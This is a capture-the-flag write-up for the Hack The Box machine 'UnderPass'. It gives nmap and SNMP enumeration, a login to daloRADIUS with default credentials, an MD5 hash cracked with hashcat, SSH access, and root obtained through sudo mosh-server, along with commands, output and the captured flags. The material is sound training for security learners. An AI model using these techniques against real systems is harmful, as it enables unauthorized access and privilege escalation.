




UnderPass is an easy HTB machine where you have to perform a `UDP scan` to discover a running `SNMP service` where information leaks and reveals that `Daloradius` is running on the web service. From there, we get a user and hash that we use to `SSH` into the machine, once inside we find a binary that can be run as `sudo`, gaining root access.


# Reconnaissance
```bash
[t3mpx@parrot]─[~/htb/easy/underpass]
└──★$ nmap -np- -Pn -sVC --min-rate 5000 -oN nmap-scan.txt 10.10.11.48
Nmap scan report for 10.10.11.48
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  2 12:10:40 2025 -- 1 IP address (1 host up) scanned in 19.28 seconds
```

> SSH, HTTP

Let's take a look at [http://10.10.11.48/](http://10.10.11.48/):


Nothing comes up when fuzzing for directories:
```bash
[t3mpx@parrot]─[~/htb/easy/underpass]
└──★$ ffuf -u http://10.10.11.48/FUZZ -c -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -ic -sa -mc all -fc 404

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

<SNIP>
________________________________________________

                        [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 3545ms]
                        [Status: 200, Size: 10671, Words: 3496, Lines: 364, Duration: 37ms]
server-status           [Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 37ms]
:: Progress: [220546/220546] :: Job [1/1] :: 1149 req/sec :: Duration: [0:03:16] :: Errors: 0 ::
```

Let's run a UDP scan:
```bash
[t3mpx@parrot]─[~/htb/easy/underpass]
└──★$ sudo nmap -sU 10.10.11.48
Nmap scan report for 10.10.11.48
Host is up (0.24s latency).
Not shown: 997 closed udp ports (port-unreach)
PORT     STATE         SERVICE
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct
```

> SNMP

# Exploit
## SNMP
### onesixtyone

Let's brute-force the community string:
```bash
[t3mpx@parrot]─[~/htb/easy/underpass]
└──★$ onesixtyone -c /usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt 10.10.11.48
Scanning 1 hosts, 122 communities
10.10.11.48 [public] Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
10.10.11.48 [public] Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
```
> We got it: `public`

### snmp-check
```bash
[t3mpx@parrot]─[~/htb/easy/underpass]
└──★$ snmp-check 10.10.11.48 -c public
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
  Location                      : Nevada, U.S.A. but not Vegas
  Uptime snmp                   : 08:06:12.95
  Uptime system                 : 08:06:02.92
  System date                   : 2025-5-2 17:18:28.0
```
> We have some more info now, a hostname, a daloradius server and a user. Let's add the hostname to our /etc/hosts file: `echo -e '10.10.11.48\tunderpass.htb' | sudo tee -a /etc/hosts`

## Daloradius
The daloradius endpoint exists:


After some fuzzing and poking around I found a interesting login panel at [http://underpass.htb/daloradius/app/operators/](http://underpass.htb/daloradius/app/operators/):

> Default credentials `administrator:radius` work!

More looking around landed me users management panel at [http://underpass.htb/daloradius/app/operators/mng-list-all.php](http://underpass.htb/daloradius/app/operators/mng-list-all.php):

> We got an username and a hashed password `svcMosh:412DD4759978ACFCC81DEAB01B382403`

### hashcat

Let's crack it with hashcat:
```bash
[t3mpx@parrot]─[~/htb/easy/underpass]
└──★$ hashcat -a 0 -m 0 hash.txt /usr/share/wordlists/rockyou.txt --show
412dd4759978acfcc81deab01b382403:underwaterfriends
```
# Lateral Movement
## Shell as svcMosh


```bash
[t3mpx@parrot]─[~/htb/easy/underpass]
└──★$ ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro
 
<SNIP>

Last login: Fri May  2 14:44:19 2025 from 10.10.14.4
```
>We now have a shell as the user `svcMosh`

### User flag

```bash
svcMosh@underpass:~$ cat user.txt
71323c503379ba56e13cef36eacc6de4
```

## Shell as root

After doing a basic privilege escalation enumeration we come accross the following:
```bash
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```
> Our user can run `mosh-server` as root

A quick google [search](https://medium.com/@momo334678/mosh-server-sudo-privilege-escalation-82ef833bb246) shows us how to elevate our privileges to root.

```bash
svcMosh@underpass:~$ sudo mosh-server


MOSH CONNECT 60002 6NIryDFj8Li7MXojnpUwzA

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 7155]
```

```bash
[t3mpx@parrot]─[~/htb/easy/underpass]
└──★$ MOSH_KEY=6NIryDFj8Li7MXojnpUwzA mosh-client 10.10.11.48 60002
```

### Root flag
```bash
root@underpass:~# cat root.txt
e4a4bbcf68ba2cf977dfc638ddfc32a7
```


